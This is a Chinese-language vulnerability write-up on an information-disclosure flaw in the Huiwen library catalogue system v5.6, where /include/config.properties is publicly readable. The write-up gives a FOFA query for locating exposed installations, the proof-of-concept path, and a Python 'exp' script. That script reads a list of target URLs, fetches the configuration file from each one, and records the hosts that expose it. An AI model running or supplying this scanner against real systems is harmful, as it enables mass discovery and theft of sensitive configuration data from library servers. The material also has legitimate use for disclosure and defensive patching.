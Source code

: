 # 汇文 图书馆书目检索系统 config.properties 信息泄漏漏洞

## 漏洞描述

汇文 图书馆书目检索系统 /include/config.properties 文件中包含敏感信息，攻击者可以直接访问获取信息

## 漏洞影响

```
汇文v5.6
```

## FOFA

```
app="汇文软件-书目检索系统"
```

## 漏洞复现

主页面

![image-20220525144642895](./images/202205251446991.png)

验证POC

```
/include/config.properties
```

![image-20220525144530183](./images/202205251445229.png)





exp:

import requests

urls_file = "url.txt"
results_file = "results.txt"

with open(urls_file, 'r') as urls:
    with open(results_file, 'w') as results:
        for url in urls:
            check_url = url.rstrip() + '/include/config.properties'
            try:
                response = requests.get(check_url, timeout=5, verify=False)
                response.raise_for_status()
                results.write(f"{check_url} exists!\n")
                print(f"{check_url} exists!")
            except requests.exceptions.RequestException as e:
                print(f"{check_url} error: {e}")
